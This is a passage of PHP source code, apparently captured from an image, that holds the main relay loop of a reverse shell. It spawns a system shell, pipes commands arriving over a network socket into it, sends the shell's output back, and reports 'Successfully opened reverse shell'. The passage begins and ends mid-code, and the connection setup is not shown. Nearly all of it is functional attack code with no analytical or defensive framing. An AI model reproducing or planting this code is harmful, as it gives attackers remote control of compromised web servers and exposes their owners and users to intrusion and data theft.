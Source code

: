 ```php
   0 => array("pipe", "r"),
   1 => array("pipe", "w"),
   2 => array("pipe", "w")
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
    printit("ERROR: Can't spawn shell");
    exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
    if (feof($sock)) {
        printit("ERROR: Shell connection terminated");
        break;
    }

    if (feof($pipes[1])) {
        printit("ERROR: Shell process terminated");
        break;
    }

    $read_a = array($sock, $pipes[1], $pipes[2]);
    $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

    if (in_array($sock, $read_a)) {
        if ($debug) printit("SOCK READ");
        $input = fread($sock, $chunk_size);
        if ($debug) printit("SOCK: $input");
        fwrite($pipes[0], $input);
    }

    if (in_array($pipes[1], $read_a)) {
        if ($debug) printit("STDOUT READ");
        $input = fread($pipes[1], $chunk_size);
        if ($debug) printit("STDOUT: $input");
        fwrite($sock, $input);
    }

    if (in_array($pipes[2], $read_a)) {
        if ($debug) printit("STDERR READ");
        $input = fread($pipes[2], $chunk_size);
        if ($debug) printit("STDERR: $input");
        fwrite($sock, $input);
    }
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
    if (!$daemon) {
```
